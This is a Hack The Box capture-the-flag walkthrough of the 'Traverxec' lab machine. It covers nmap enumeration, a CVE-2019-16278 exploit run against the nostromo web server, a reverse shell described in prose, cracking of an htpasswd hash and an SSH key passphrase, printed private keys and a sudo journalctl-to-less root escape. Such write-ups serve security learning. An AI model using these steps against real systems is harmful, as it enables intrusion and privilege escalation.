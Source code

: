 # Traverxec
>Author : Xyan1d3
>Date : 23rd June 2021
>IP : 10.10.10.165
>OS : Linux
>Difficulty : Easy

# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Wed Jun 23 22:12:50 2021 as: nmap -sC -sV -v -oN nmap/traverxec 10.10.10.165
Nmap scan report for traverxec.htb (10.10.10.165)
Host is up (0.14s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: GET POST
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Here, The box is running `Debian` as confirmed from the SSH banner of `22/tcp`.
![[Pasted image 20210623221628.png]]

On reverse searching the SSH banner version we get to know that we are up against Debian Buster.

We also, get to know that the `80/tcp` is running something odd as an webserver which is `nostromo 1.9.6`.
We may now look for some exploit for this webserver.

# Initial FootHold
We look for some exploits of this uncommon webserver `nostromo 1.9.6`.
The Nostromo 1.9.6 is vulnerable to `CVE-2019-16278` which is a RCE.
We do a `searchsploit` and find out that we have a python exploit.

![[Pasted image 20210623222215.png]]

We have to modify the exploit little bit and need to remove a line from the exploit.
![[Pasted image 20210623222552.png]]

We need to run the exploit using the `IP` ,`Port` and `Command`.
Command Run : 
```python
python2 nostromo_exploit.py 10.10.10.165 80 id
```
![[Pasted image 20210623222759.png]]

We could now, run a bash reverse shell and get an inital foothold on the box.
We create a `bash -i` reverse shell and `base64` encode it and send the payload to the command and get a Initial shell as `www-data` into the box.
![[Pasted image 20210623223218.png]]

# User Escalation as user david
We search for the `nostromo` web directory which we find out at `/var/nostromo`.
![[Pasted image 20210623224041.png]]
Here are two important lines which states that the pages are locked by `.httpasswd` and there is a `public_www` inside the home of the regular users.

We read the webserver config from `nhttpd.conf`
```python
www-data@traverxec:/var/nostromo/conf$ cat .htpasswd 
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

We crack the hash with `rockyou.txt` and find out that the password is `Nowonly4me`.
![[Pasted image 20210623224507.png]]

We find out that the directory contains a `backup-ssh-identity-files.tgz` archive.
![[Pasted image 20210623224754.png]]

We transfer it to our box and decompress it and find out that we have a ssh private key inside the archive.
![[Pasted image 20210623225111.png]]

We see that our SSH Key is encrypted, So we do a `ssh2john.py` and crack the hash with JtR.
```python
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
dTRqVqTnP7zI8GyKTV+KNgA0m7UWQNS+JgqvSQ9YDjZIwFlA8jxJP9HsuWWXT0ZN
6pmYZc/rNkCEl2l/oJbaJB3jP/1GWzo/q5JXA6jjyrd9xZDN5bX2E2gzdcCPd5qO
xwzna6js2kMdCxIRNVErnvSGBIBS0s/OnXpHnJTjMrkqgrPWCeLAf0xEPTgktqi1
Q2IMJqhW9LkUs48s+z72eAhl8naEfgn+fbQm5MMZ/x6BCuxSNWAFqnuj4RALjdn6
i27gesRkxxnSMZ5DmQXMrrIBuuLJ6gHgjruaCpdh5HuEHEfUFqnbJobJA3Nev54T
fzeAtR8rVJHlCuo5jmu6hitqGsjyHFJ/hSFYtbO5CmZR0hMWl1zVQ3CbNhjeIwFA
bzgSzzJdKYbGD9tyfK3z3RckVhgVDgEMFRB5HqC+yHDyRb+U5ka3LclgT1rO+2so
uDi6fXyvABX+e4E4lwJZoBtHk/NqMvDTeb9tdNOkVbTdFc2kWtz98VF9yoN82u8I
Ak/KOnp7lzHnR07dvdD61RzHkm37rvTYrUexaHJ458dHT36rfUxafe81v6l6RM8s
9CBrEp+LKAA2JrK5P20BrqFuPfWXvFtROLYepG9eHNFeN4uMsuT/55lbfn5S41/U
rGw0txYInVmeLR0RJO37b3/haSIrycak8LZzFSPUNuwqFcbxR8QJFqqLxhaMztua
4mOqrAeGFPP8DSgY3TCloRM0Hi/MzHPUIctxHV2RbYO/6TDHfz+Z26ntXPzuAgRU
/8Gzgw56EyHDaTgNtqYadXruYJ1iNDyArEAu+KvVZhYlYjhSLFfo2yRdOuGBm9AX
JPNeaxw0DX8UwGbAQyU0k49ePBFeEgQh9NEcYegCoHluaqpafxYx2c5MpY1nRg8+
XBzbLF9pcMxZiAWrs4bWUqAodXfEU6FZv7dsatTa9lwH04aj/5qxEbJuwuAuW5Lh
hORAZvbHuIxCzneqqRjS4tNRm0kF9uI5WkfK1eLMO3gXtVffO6vDD3mcTNL1pQuf
SP0GqvQ1diBixPMx+YkiimRggUwcGnd3lRBBQ2MNwWt59Rri3Z4Ai0pfb1K7TvOM
j1aQ4bQmVX8uBoqbPvW0/oQjkbCvfR4Xv6Q+cba/FnGNZxhHR8jcH80VaNS469tt
VeYniFU/TGnRKDYLQH2x0ni1tBf0wKOLERY0CbGDcquzRoWjAmTN/PV2VbEKKD/w
-----END RSA PRIVATE KEY-----
```

We crack the passphrase which turns out to be `hunter`.
![[Pasted image 20210623225349.png]]

We do an `openssl` to remove the passphrase from the SSH private key.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.15]─[~/htb/htb-tjnull/traverxec/home/david/.ssh]    
└──╼ # openssl rsa -in id_rsa
Enter pass phrase for id_rsa:
writing RSA key
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEArF67DEHNFO9RlVzEHEzmCB9mbwsKcU8TdYzmG07rbzcmE4RC
I2KQlbOQyoWYtqzbpyPGfhMvxQvW6ZgoibWqNMcSGydNnPh+qtd2gBa07+tRgM4u
Z3l+C49hP6SIXdyQRWESEMPewuujDt1FasSnJxqwr2J4SbyjMO50kSP3F0zxwBJ8
FNPjVtswSiHfHEUS8RhcjOPaYw2T7AFYBpX3QQ9/NL1WvXTKyf09d7w02WRqA4HK
vYEbQ9QejSaCx2kVh+IpEbkLy1o5N51gw2kY8OjMZkbS5PIdDDO/iIgWHOjSb20M
6RuTOaDNBb4WsEHrTe9SnGeI1FcTd5vmJGqhwwIDAQABAoIBAFgqtF5WogHdT8uo
gZ9ALkFlXk3aReMjYX61LVY2jfJ7MPy2n+XdmrsX+C2/HBgEXu4lPHhsc/jET494
hvO5enA4iyhceDScXp4gS7rE4pP9t9i8nbvLxw8+ra2SCTaJhToXptfweFcXlHYb
9E/ieuVjn5B2O7TrykVTE0jSLqc5m1+SdvNPtVX+4cj0n1O6uZMaijg4itca8ffI
kCvx5fh6gR3A3EpFqyJxg7SSVOQ0UpRM333aEHAPLIhCy1ituS+T75FBPA6quByl
vy86PRn25B3m0ArqYlV1ffD16kNb/hr0b8VSOcRxaVFwIuW8g06bclhBu5R+HsQ4
c7IWdxECgYEA03M/rzWIoILIBOT7+N5heGWcVrcSukmGmMPN0/W6uGkiiP6Njnpy
8bAhDQ8bB2vWqjWl3I+XKLMB7x5qIgJ0/8/bTIoKMLajinUsmjM7NFU/p308LYPt
3oGUgy5/08GOwf8IULTAsm072gKo6y/Foq74uHOBBpZABU6dEE1VaN0CgYEA0K+o
6ozrL3qlhblg6grMdE0bPU2OQ9PGTApKo/AYGJCn1jYr6vB4IYb//Tn0DkvdwupJ
kMarBK3f0e6kR4LLqCLu34uKhndYIifzGyvWIO/hD15Zw3B8RQTH/Xt3mBPat6lz
i4OnwcHoXV7dmijlazjmUDUeYXLRD/HNhIUIOx8CgYEAoyxWwtCfBK6nyA8k2yJR
OWXARbK1QwimU5EWbzE7zD9lpS468u5PcW8nsjor84gmeec4fYJZddDd9zcTU/dt
blNquh/0SS9H+Pr/Vmeekn4OxyN/ougiUgjRIIJrpm/ByLcUJaO26HofK9fNnuCY
tTgtO7n2oayk7vOBhSkIdgkCgYAWR7rcF+GANzL23Pzo3/BGNnlDCUW4HiMcuTiQ
2jBoZwFUUIJN2hCpW7V2/rn80MLDbaofB+b4X+v2iOkHLYK618fzG/3VL2a8dtFw
xDRfXd0EfAlPYXITGFiVypnRJcWDOFc6vPqrKB274kX8kIM1+GQ2igVNWCnT7vgH
PwDK9wKBgH0ORm/d/mdGqmAPNQZ1GKrGBiWCRZ4LTr92Y+QHEuEOEIHqo+fZsRty
OwJfz7ILF078OKHoWWUGk/nDQesGs0VqE3hgCN8Z9/tNOOivvpw45C1x5XkiSZkr
GaUwbDziJwQ5lb5D+we+E0nyOsfgfKvnKSp/09A90golZK4CbtVQ
-----END RSA PRIVATE KEY-----
```

We use this SSH key to SSH into the `david` user.
![[Pasted image 20210623230024.png]]

We could now get the `user.txt`.
![[Pasted image 20210623230144.png]]

# Root Escalation
We have a bin directory which has a `server-stats.sh` which issues sudo `journalctl`.
```python
david@traverxec:~/bin$ ls
server-stats.head  server-stats.sh
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash
cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

The journalctl command by default calls less command.
But, It is reading 5 lines So, To get the `less` editor we need to shrink the terminal size and in less issue `!/bin/bash` to get bash shell as `root`.


![[Pasted image 20210623231035.png]]

We get the `root.txt`
![[Pasted image 20210623231100.png]]